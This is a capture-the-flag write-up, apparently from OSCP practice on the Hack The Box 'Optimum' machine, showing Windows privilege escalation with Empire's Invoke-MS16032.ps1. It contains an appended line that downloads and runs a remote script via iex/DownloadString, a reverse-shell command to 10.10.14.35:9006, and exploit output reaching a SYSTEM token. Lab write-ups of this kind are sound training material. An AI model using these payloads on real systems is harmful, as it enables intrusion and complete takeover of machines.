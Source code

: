 **Step 01**

I will use `Empire`  it is already installed in Kali Linux and i will the `Invoke-MS16032.ps1`
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/OSCP/Optimum]
└─$ locate Invoke-MS16032
/usr/share/powershell-empire/empire/server/data/module_source/privesc/Invoke-MS16032.ps1
```
Now i will copy it t my home directory and do some alterations 
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/OSCP/Optimum]
└─$ cp /usr/share/powershell-empire/empire/server/data/module_source/privesc/Invoke-MS16032.ps1 .
```
Now add the following line at the end of the script.
```
Invoke-MS16-032 -Cmd "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.35:8001/Invoke-PowerShellTcp.ps1')"
```

**Step 02**

Since i have to get shell again, then i will use the same `Invoke-PowerSehllTCP` but now i will edit the name to avoid confusion with the initial file and modify the file as before by adding this line at the end of the file.
```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.35 -Port 9006
```
**Step 03**

Transfer file `Invoke-MS16032.ps1` to Windows
```
┌──(gemstone㉿hashghost)-[~/C7F5/htb/OSCP/Optimum]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


PS C:\Users\kostas\Desktop> iwr http://10.10.14.35/Invoke-MS16032.ps1 -outf Invoke-MS16032.ps1 
PS C:\Users\kostas\Desktop>
```
**Step 04**

Run the script `Invoke-MS16032.ps1` while listening to `9006`
```
PS C:\Users\kostas\Desktop> .\Invoke-MS16032.ps1
         __ __ ___ ___   ___     ___ ___ ___
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|

                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handles..
[?] Done, got 1 thread handle(s)!

[?] Thread handle list:
1884

[*] Sniffing out privileged impersonation token..

[?] Trying thread handle: 1884
[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 3700
[+] Resuming thread..

```